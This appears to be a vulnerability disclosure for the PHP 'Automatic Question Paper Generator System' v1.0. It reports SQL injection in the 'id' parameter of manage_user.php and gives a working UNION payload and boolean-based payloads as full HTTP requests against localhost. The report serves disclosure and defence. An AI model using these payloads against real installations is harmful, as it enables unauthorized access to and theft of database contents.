 # Automatic Question Paper Generator System v1.0 has SQL injection

BUG_Author:yuan

Website source address:https://www.sourcecodester.com/php/15190/automatic-question-paper-generator-system-phpoop-free-source-code.html

Vulnerability File: /aqpg/users/user/manage_user.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x35363738,0x41424344),null,null,null,null,null,null-- -

```
GET /aqpg/users/user/manage_user.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x35363738,0x41424344),null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

union query success

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql1.png)

Payload2:id=1' and 'a'='a

```
GET /aqpg/users/user/manage_user.php?id=1%27%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

The page is echoed normally

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql2.png)

Payload3:id=1' and 'a'='b

```
GET /aqpg/users/user/manage_user.php?id=1%27%20and%20%27a%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

page echo error

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql3.png)
